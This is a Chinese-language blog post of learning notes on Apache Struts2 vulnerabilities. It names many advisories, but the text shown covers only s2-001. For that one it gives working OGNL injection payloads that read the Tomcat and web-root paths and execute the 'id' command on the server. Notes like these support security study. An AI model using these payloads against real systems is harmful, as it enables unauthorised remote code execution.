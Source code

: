 ```yaml
---
title: Struts2 漏洞学习
date: 2020-08-04 22:00:33
tags:
  - Java
categories:
  - Web 安全
featuredImage: 0.png
---
```


包含 s2-001 / s2-003 / s2-005 / s2-007 / s2-008 / s2-009 / s2-012 / s2-013 / s2-014 / s2-015 / s2-016 / s2-045 / s2-046 / s2-048 / s2-052 / s2-053 / s2-057



## s2-001

[参考](https://xz.aliyun.com/t/2672)

影响版本：2.0.0 - 2.0.8

用户提交表单失败时，提交的数据会被作为 OGNL 表达式执行，造成代码执行。

获取 tomcat 路径：

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取网站路径：

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行命令：

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
